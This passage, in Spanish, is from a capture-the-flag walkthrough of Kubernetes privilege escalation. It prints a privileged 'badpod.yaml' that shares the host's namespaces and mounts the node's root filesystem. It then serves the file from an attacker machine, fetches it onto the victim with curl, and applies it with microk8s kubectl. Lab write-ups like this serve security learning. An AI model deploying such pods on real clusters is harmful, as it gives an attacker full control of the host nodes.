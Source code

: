 
  3)badpod.yaml, nos va a permitir en el directorio /host del pod cargar el sistema raiz del host(nodo), por lo que tendremos acceso total al sistema de ficheros.

  Estructura de badpod.yaml

        apiVersion: v1
        kind: Pod
        metadata:
          name: esevka
          labels:
            app: pentest
        spec:
          hostNetwork: true
          hostPID: true
          hostIPC: true
          containers:
          - name: esevka
            image: localhost:32000/bsnginx
            securityContext:
              privileged: true
            volumeMounts:
            - mountPath: /host
              name: noderoot
            command: [ "/bin/bash", "-c", "--" ]
            args: [ "while true; do sleep 30; done;" ]
          volumes:
          - name: noderoot
            hostPath:
              path: /

  4)Subimos nuestro badpod.yaml a la maquina victima, o podemos crearlo desde la propia maquina.

  Montamos con python un servidor http para compartir ficheros.
  
      ┌──(root㉿kali)-[/home/kali/Desktop/ctf/frankherby_app]
      └─# python3 -m http.server 80
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

  Desde la maquina victima nos descargamos el fichero a la carpeta /tmp

      frank@dev-01:/tmp$ curl http://10.9.92.151/badpod.yaml -o badpod.yaml
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
        100   636  100   636    0     0    794      0 --:--:-- --:--:-- --:--:--   795

      frank@dev-01:/tmp$ ls -la
      total 52
      drwxrwxrwt 12 root  root  4096 Aug 14 15:17 .
      drwxr-xr-x 21 root  root  4096 Oct 29  2021 ..
      -rw-rw-r--  1 frank frank  636 Aug 14 15:23 badpod.yaml


5)Creamos nuestro pod

    frank@dev-01:/tmp$ microk8s kubectl apply -f badpod.yaml 
    pod/esevka created
    